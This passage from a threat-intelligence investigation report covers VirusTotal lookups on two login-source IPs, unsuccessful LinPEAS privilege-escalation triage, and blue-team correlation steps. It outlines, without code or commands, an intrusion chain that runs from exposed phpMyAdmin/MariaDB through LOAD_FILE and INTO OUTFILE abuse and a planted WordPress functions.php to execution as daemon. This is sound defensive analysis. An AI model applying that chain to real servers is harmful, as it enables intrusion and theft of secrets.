

*VirusTotal capture for 5.228.116.200: 0/92 detections, AS42610 / Rostelecom, and an RU label. The Historical Whois panel displays RT.RU domain information last updated in 2021; it is not a subscriber record for the observed SSH source.*

For 5.228.116.200, the stronger connection to this investigation came from the recorded user sessions and the displayed SSH peer. VirusTotal supplied provider and reputation context around that observation. The historical domain record did not identify the account's human owner, and the country label did not establish where the operator was physically sitting.



*VirusTotal capture for the historical login source 5.228.117.126: 0/92 detections, AS42610 / Rostelecom and network/registration details. A separate banner reports two detected files communicating with the IP; their hashes, connection times and relevance to D1R are not shown.*

Those two findings can exist together: an IP detection count of zero and relationships to files that have detections. Neither proves that this address was safe or malicious during the recorded login. Without the related file identities and timing, the banner does not establish that those files were used here.

For a blue team, the next useful correlation would be the source address plus the login time, target account, SSH session and sudo activity. I would preserve the raw timestamps and source records before normalizing them. I would not block an entire provider range, assign nationality, or merge these login sources with the Git destination and public egress IP just because the addresses appeared in the same investigation.

*These are supplied screenshots, not fresh lookups. Their capture time is not established, and the displayed reputation must not be presented as a current VirusTotal result.*

# The scanner was loud and the full transcript mattered

Once code was running as daemon, privilege escalation was the obvious next question. The reported CopyFail attempt didn't succeed. LinPEAS then printed candidate findings, among them Dirty Frag checks and an Open vSwitch-related check, flagged with labels like LIKELY VULNERABLE and POTENTIAL ROOT LPE.



*The scanner screenshot and its candidate labels. Those labels are triage output, not a record of successful exploitation.*

The complete log changed how I read that screen. The generic registry compared against 6.1.0.54, while the fuller build and package data reported Debian 6.1.190-1. A distribution's release label and its patched package version aren't the same number, and treating them as interchangeable is how you get false version matches.

The same transcript carried negative or already-fixed results for other checks, including a Copy Fail runtime probe. These were still tool-reported assessments that needed validation against trusted package and advisory data. No root escalation was demonstrated. The daemon context and the failed shadow-file access checks stayed as hard limits on what I could claim.

# What a blue team could correlate across the chain

The host profile made the defensive questions more concrete. I would look for the same sequence across independent records, rather than expect one alert to explain the entire chain:

- **Database administration:** correlate phpMyAdmin web requests and any available authentication/session records with MariaDB client identity and query/audit logs. Preserve the actual account and connection source; a missing login prompt by itself does not identify either one.
- **Database file operations:** review recorded LOAD_FILE and INTO OUTFILE activity, changes to general_log and general_log_file, and their timing against file creation. Query-audit coverage depends on the logging that was actually enabled.
- **Filesystem artifacts:** preserve suspicious functions.php files under /tmp or /var/tmp, including hashes, ownership, permissions and timestamps. Keep them separate from legitimate theme files and investigator-created test artifacts.
- **WordPress state:** compare template and stylesheet option values with trusted settings and available change history. Pair those changes with PHP/web-server errors, failed plugin/theme writes, and the requests associated with execution.
- **Execution and outbound traffic:** correlate Apache/PHP activity under daemon with process and network telemetry, including callbacks or unexpected destinations. A loopback address on a local listener is not enough to identify the remote origin.
- **Interactive access:** pair SSH authentication records, session identifiers and sudo events for the user account with the observed login-source addresses. Two terminal rows can belong to one underlying connection; an existing privileged session is not evidence that the daemon shell escalated.

The goal would be to reconstruct who or what changed state, under which identity, and in what order. Gaps need to stay visible: no query log or missing authentication history means limited visibility, not proof that the activity never happened. Database root, Apache daemon and Linux root should remain separate throughout that timeline.

# What the complete investigation adds up to

The strongest chain here runs from unauthenticated, privileged database access to local-file disclosure, exposed WordPress secrets, and recorded execution as a service account. Git metadata and login records added context about development and access, though with tighter attribution limits than they first appear to offer.

For defenders, the work sits at those boundaries: lock down database administration, drop global and FILE privileges, keep executable application content isolated from writable paths, protect repository integrity, rotate the exposed secrets, and confirm cleanup actually happened. The full log also held a suspected password-logging excerpt and world-writable repository files, both of which needed separate validation before anyone leans on them.

D1R's Synopsys claim is what brought me to the portal. The evidence behind the portal turned out to be the more substantial technical story. The complete D1R CTI Report v8 keeps the source hashes, original exhibits, Git chronology, and finding-by-finding confirmation limits for anyone who wants to follow every link.

Investigation and analysis by Ahmed Elessaway and Abdelhameed Ghazy. The opening alert and access sequence follow our own account of the work. The victim-breach, supply-chain, and ARM Athena DM leak claims are not independently authenticated here. Evidence reviewed November 15-16, 2026. Personal attribution and a successful local privilege escalation both remain unconfirmed. Live credentials and WordPress secret values are withheld.
